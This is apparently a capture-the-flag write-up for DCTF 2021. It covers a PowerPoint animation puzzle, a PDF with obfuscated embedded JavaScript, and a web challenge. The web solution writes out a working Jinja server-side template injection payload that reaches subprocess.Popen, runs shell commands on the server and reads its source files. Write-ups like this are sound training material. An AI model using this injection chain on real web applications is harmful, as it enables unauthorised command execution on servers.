




Solved a couple of challenges and was leading in the first place until the admins decided to give out hints for the challenges we solved, while not giving hints for the challenges we did not. They also increased the points of some challenges manually, which happened to be the ones we didn't solve. There was also rampant flag/solution sharing in the official Discord. 

You can read more about it on my tweet here: https://twitter.com/kohyouliang/status/1393540123682246659, but basically my team gave up after they released the second set of hints for challenges that we had solved. 

Nevertheless, was happy to play with friends again.

---

## Misc

---

# Powerpoint Programming

#### Category: Misc | 97 solves 

<details>
  <summary>Challenge Description</summary>
  
A login page in powerpoint should be good enough, right?
<br />
Flag is not in format. <br />
DCTF{ALL_CAPS_LETTERS_OR_NUMBERS}
</details>

This was an interesting challenge.

We're given a ppsx file which is a powerpoint presentation file. However, you can rename it to `.pptx` and it will open the source powerpoint file. 

When I saw it I knew there was definitely some conditional statements going on, so I googled for how to write them in Powerpoint. It turns out that you can make conditional animations, which prompted me to open the animation panel.

Looking at the animation numbers clicking on them, I realised they are in the order of characters of the flag. Thus, by following the order of animations, we can get the flag.




<details>
  <summary>FLAG</summary>
  
  DCTF{PPT_1SNT_V3RY_S3CUR3_1S_1T}
</details>

***

# Don't let it run

#### Category: Misc | 241 solves 

<details>
  <summary>Challenge Description</summary>
  
PDF documents can contain unusual objects within.


</details>

Opening the `dragon.pdf` shows us a very obvious line of JavaScript on line 29.

```javascript
766172205F3078346163393D5B2736363361435968594B272C273971776147474F272C276C6F67272C273150744366746D272C27313036387552596D7154272C27646374667B7064665F316E6A33637433647D272C273736383537376A6868736272272C2737313733343268417A4F4F51272C27373232353133504158436268272C2738333339383950514B697469272C27313434373836335256636E546F272C2731323533353356746B585547275D3B2866756E6374696F6E285F30783362316636622C5F3078316164386237297B766172205F30783536366565323D5F3078353334373B7768696C652821215B5D297B7472797B766172205F30783237353061353D7061727365496E74285F307835363665653228307831366529292B2D7061727365496E74285F307835363665653228307831366429292B7061727365496E74285F307835363665653228307831366329292B2D7061727365496E74285F307835363665653228307831373329292A2D7061727365496E74285F307835363665653228307831373129292B7061727365496E74285F307835363665653228307831373229292A2D7061727365496E74285F307835363665653228307831366129292B7061727365496E74285F307835363665653228307831366629292A7061727365496E74285F307835363665653228307831373529292B2D7061727365496E74285F307835363665653228307831373029293B6966285F30783237353061353D3D3D5F307831616438623729627265616B3B656C7365205F30783362316636625B2770757368275D285F30783362316636625B277368696674275D2829293B7D6361746368285F3078353736346134297B5F30783362316636625B2770757368275D285F30783362316636625B277368696674275D2829293B7D7D7D285F3078346163392C3078386439376629293B66756E6374696F6E205F30786128297B766172205F30783363366432303D5F3078353334373B636F6E736F6C655B5F3078336336643230283078313734295D285F307833633664323028307831366229293B7D76617220613D27626B706F646E746A636F7073796D6C78656977686F6E7374796B787372707A79272C623D2765787262737071717573746E7A717269756C697A70656565787771736F666D77273B5F30786228612C62293B66756E6374696F6E205F307835333437285F30783337646533352C5F3078313961633236297B5F30783337646533353D5F30783337646533352D30783136613B766172205F30783461633965613D5F3078346163395B5F30783337646533355D3B72657475726E205F30783461633965613B7D66756E6374696F6E205F307862285F30783339623365652C5F3078666165353433297B766172205F30783235393932333D5F30783339623365652B5F30786661653534333B5F30786128293B7D0A
```

Decoding the hex gives us the flag. Can you spot it?

`var _0x4ac9=['663aCYhYK','9qwaGGO','log','1PtCftm','1068uRYmqT','dctf{pdf_1nj3ct3d}','768577jhhsbr','717342hAzOOQ','722513PAXCbh','833989PQKiti','1447863RVcnTo','125353VtkXUG'];(function(_0x3b1f6b,_0x1ad8b7){var _0x566ee2=_0x5347;while(!![]){try{var _0x2750a5=parseInt(_0x566ee2(0x16e))+-parseInt(_0x566ee2(0x16d))+parseInt(_0x566ee2(0x16c))+-parseInt(_0x566ee2(0x173))*-parseInt(_0x566ee2(0x171))+parseInt(_0x566ee2(0x172))*-parseInt(_0x566ee2(0x16a))+parseInt(_0x566ee2(0x16f))*parseInt(_0x566ee2(0x175))+-parseInt(_0x566ee2(0x170));if(_0x2750a5===_0x1ad8b7)break;else _0x3b1f6b['push'](_0x3b1f6b['shift']());}catch(_0x5764a4){_0x3b1f6b['push'](_0x3b1f6b['shift']());%7d%7d}(_0x4ac9,0x8d97f));function _0xa(){var _0x3c6d20=_0x5347;console[_0x3c6d20(0x174)](_0x3c6d20(0x16b));}var a='bkpodntjcopsymlxeiwhonstykxsrpzy',b='exrbspqqustnzqriulizpeeexwqsofmw';_0xb(a,b);function _0x5347(_0x37de35,_0x19ac26){_0x37de35=_0x37de35-0x16a;var _0x4ac9ea=_0x4ac9[_0x37de35];return _0x4ac9ea;}function _0xb(_0x39b3ee,_0xfae543){var _0x259923=_0x39b3ee+_0xfae543;_0xa();}
`


<details>
  <summary>FLAG</summary>
  
  dctf{pdf_1nj3ct3d}
</details>

---

## Web
---

# Injection

#### Category: Web | 89 solves 

<details>
  <summary>Challenge Description</summary>
  
Our local pharmacy exposed admin login to the public, can you exploit it? http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/
</details>

Open the page and logging in with random credentials brings us to http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/login, where it says `Oops! Page login doesn't exist :(`. Looking at the path, I thought there might be an injection so I went straight for `7b%7b7*7%7d%7d` which returned 49. 



So we have an SSTI.

Let's try to import the globals. `%7b%7bglobal_name.__class__.__base__%7d%7d` gives `<class 'object'>`, so we know that it can be imported. 

Going one step further, we try to list all the available classes and find something we can use with `%7b%7bglobal_name.__class__.__base__.__subclasses__()%7d%7d`. 
`



Towards the end, we spied a `<class 'subprocess.Popen'>` which we used to get a shell running. 

Lets do an `ls / -alR` to enumerate the whole file system. Note that the whole shell payload has to be URL encoded, like this `%7b%7bglobal_name.__class__.__base__.__subclasses__()[414](%22%6c%73%20%2f%20%2d%61%6c%52%22,shell=True,stdout=-1).communicate()[0]%7d%7d`. 

We got a 10MB response after 20 seconds of waiting.



Looking at the relevant filesystem:

```
/app:
total 24
dr-xr-xr-x    1 root     root          4096 May 14 01:33 .
drwxr-xr-x    1 root     root          4096 May 15 16:18 ..
-r--r--r--    1 root     root          1180 May 14 01:32 app.py
dr-xr-xr-x    1 root     root          4096 May 14 01:32 lib
dr-xr-xr-x    1 root     root          4096 May 14 01:32 static
dr-xr-xr-x    1 root     root          4096 May 14 01:32 templates

/app/lib:
total 12
dr-xr-xr-x    1 root     root          4096 May 14 01:32 .
dr-xr-xr-x    1 root     root          4096 May 14 01:33 ..
-r--r--r--    1 root     root           279 May 14 01:32 security.py
```

There was this suspicious file called `security.py`. Opening it via `cat`, we get the following:

```python
import base64

def validate_login(username, password):
    if username != 'admin':
        return False
    
    valid_password = 'QfsFjdz81cx8Fd1Bnbx8lczMXdfxGb0snZ0NGZ'
    return base64.b64encode(password.encode('ascii')).decode('ascii')[::-1].lstrip('=') == valid_password
```

Reversing the `valid_password` variable step by step:
1. Add 2 `=` signs to the left side of the string to 'undo' `lstrip('=')`
2. Reverse the string to undo `[::-1]`
3. Base64 decode the resulting string `ZGN0Zns0bGxfdXMzcl8xbnB1dF8xc18zdjFsfQ==`

And we got the flag! 

<details>
  <summary>FLAG</summary>
  
  dctf{4ll_us3r_1nput_1s_3v1l}
</details>

---

I solved a couple more challenges but they have so many solves thanks to the multiple hints so you can probably find other writeups for them online. 